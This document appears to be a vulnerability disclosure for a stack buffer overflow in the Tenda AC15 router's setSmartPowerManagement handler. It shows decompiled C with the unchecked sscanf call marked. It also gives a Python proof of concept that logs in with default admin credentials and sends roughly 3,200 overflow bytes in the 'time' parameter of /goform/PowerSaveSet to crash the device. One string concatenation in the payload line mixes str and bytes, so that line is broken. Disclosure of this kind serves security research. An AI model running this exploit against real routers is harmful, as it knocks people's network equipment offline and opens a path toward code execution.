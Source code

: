 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function setSmartPowerManagement, the content obtained by the program from the parameter "time" is passed to local_1c, 
and then the local_1c is directly parsed into the local_2c, local_34, local_3c, local_44 stack through the sscanf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void setSmartPowerManagement(undefined4 param_1)

{
  int iVar1;
  undefined4 local_164;
  undefined4 local_160;
  undefined4 local_15c;
  undefined4 local_158;
  undefined4 local_154;
  undefined4 local_150;
  undefined4 local_14c;
  undefined4 local_148;
  char acStack324 [128];
  char acStack196 [128];
  undefined4 local_44;
  undefined4 local_40;
  undefined4 local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  undefined4 local_2c;
  undefined4 local_28;
  char *local_24;
  undefined4 local_20;
  char *local_1c;
  char *local_18;
  undefined4 local_14;
  
  local_18 = (char *)0x0;
  local_1c = (char *)0x0;
  local_20 = 0;
  local_24 = (char *)0x0;
  local_2c = 0;
  local_28 = 0;
  local_34 = 0;
  local_30 = 0;
  local_3c = 0;
  local_38 = 0;
  local_44 = 0;
  local_40 = 0;
  memset(acStack196,0,0x80);
  memset(acStack324,0,0x80);
  local_164 = 0;
  local_160 = 0;
  local_15c = 0;
  local_158 = 0;
  local_154 = 0;
  local_150 = 0;
  local_14c = 0;
  local_148 = 0;
  local_14 = 1;
  local_18 = (char *)FUN_0002ba8c(param_1,"powerSavingEn",&DAT_000f3d04);
  local_1c = (char *)FUN_0002ba8c(param_1,&DAT_000f3e50,"00:00-7:30");
  local_20 = FUN_0002ba8c(param_1,"powerSaveDelay",&DAT_000f3e8c);
  local_24 = (char *)FUN_0002ba8c(param_1,"ledCloseType","allClose");
  sscanf(local_1c,"%[^:]:%[^-]-%[^:]:%s",&local_2c,&local_34,&local_3c,&local_44);  //here is overflow
  sprintf(acStack196,"%s:%s",&local_2c,&local_34);  //here is overflow
  sprintf(acStack324,"%s:%s",&local_3c,&local_44);  //here is overflow
  GetValue("sys.sched.led.closetype",&local_164);
  iVar1 = strcmp(local_24,(char *)&local_164);
  if (iVar1 != 0) {
    SetValue("power.sleep.closetype.changed",&DAT_000f3e8c);
  }
  SetValue("sys.powersleep.enable",local_18);
  SetValue("sys.powersleep.start_time",acStack196);
  SetValue("sys.powersleep.end_time",acStack324);
  SetValue("sys.powersleep.type",local_20);
  SetValue("sys.sched.led.closetype",local_24);
  iVar1 = atoi(local_18);
  ...
}

```

### * POC
```python
import requests


cmd  = b'powerSavingEn=1&time='+ b'A' * 800 + b':' + b'A' * 800 + '-' + b'A' * 800 + b':'+ b'A' * 800 + b'&powerSaveDelay=&ledCloseType=1'


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/PowerSaveSet/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
